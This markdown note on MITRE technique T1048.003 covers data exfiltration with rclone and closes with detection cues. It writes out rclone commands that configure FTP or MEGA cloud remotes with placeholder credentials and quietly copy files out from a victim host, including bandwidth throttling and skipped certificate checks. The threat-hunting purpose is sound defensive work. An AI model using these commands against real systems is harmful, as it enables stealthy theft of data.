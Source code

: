 # T1048.003 - Exfiltration Over Alternative Protocol Rclone FTP

## Description

Threat actor can utilize rclone to exfiltrate data in a stealthy manner as it can micro on the trasfer bandwidth etc.

It does support alot of providers besides MEGA cloud.

Click [here](https://rclone.org/#providers) for more info.

## Local FTP Creation

Basically refer to the technique mentioned in [atomic red team](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1048.003/T1048.003.md#atomic-test-7---exfiltration-over-alternative-protocol---ftp---rclone)

### Create a local FTP host

```cmd
rclone config create <FTP_HOST_FOLDER> "ftp" "host" <HOST_NAME> "port" <HOST_PORT> "user" <HOST_USER_NAME> "pass" <HOST_PASSWORD>
```

> ftpserver is the folder that hosted by the local FTP server.

### Transer file into the local FTP host created

```cmd
rclone copy --max-age 2y <FILE_NAME> <FTP_HOST_FOLDER> --bwlimit 2M -q --ignore-existing --auto-confirm --multi-thread-streams 12 --transfers 12 -P --ftp-no-check-certificate
```

## Remote FTP/Cloud Storage

### Create config file locally (MEGA cloud storage)

```cmd
rclone config create remote mega "user" <MEGA_USER_EMAIL> "pass" <MEGA_USER_PASSWORD>
```

It will create a config file named `rclone.conf` in default folder `<DRIVE_LETTER>:\Users\<USER_NAME>\AppData\Roaming\rclone\rclone.conf`

### Explicit config file import

This may happens when attack import their own config into victim host.

Config file can be explicitly fetch via `--config` switch

```cmd
rclone --config=test.conf copy <LOCAL_FOLDER/FILE> remote:<REMOTE_FOLDER_PATH>

e.g.
rclone --config=test.conf copy FILE.txt remote:/FOLDER
```

Transfer local file into the cloud storage.

```cmd
rclone --config=test.conf copy README.txt remote:/lol
```

## Hunt

### Config File

Usually There will have `FileCreate` event on `rclone.conf` after execute the command above.

Search for rclone config file:

- Default folder path (Have to be default name)
- Config file which located in same folder with the rclone binary (Have to be default name)
- Config file mentioned as parameter in `--config` switch (File name can be vary)

Config file at least contains name of the provider used, user account name and the encrypted password.

### File exfiltration

Check for specific keyword such as `copy` in the command line used.

### Network

It might be vary for different provider used.

## References

<https://attack.mitre.org/techniques/T1567/003/>  
<https://research.nccgroup.com/2021/05/27/detecting-rclone-an-effective-tool-for-exfiltration/>  
<https://rclone.org/mega/>
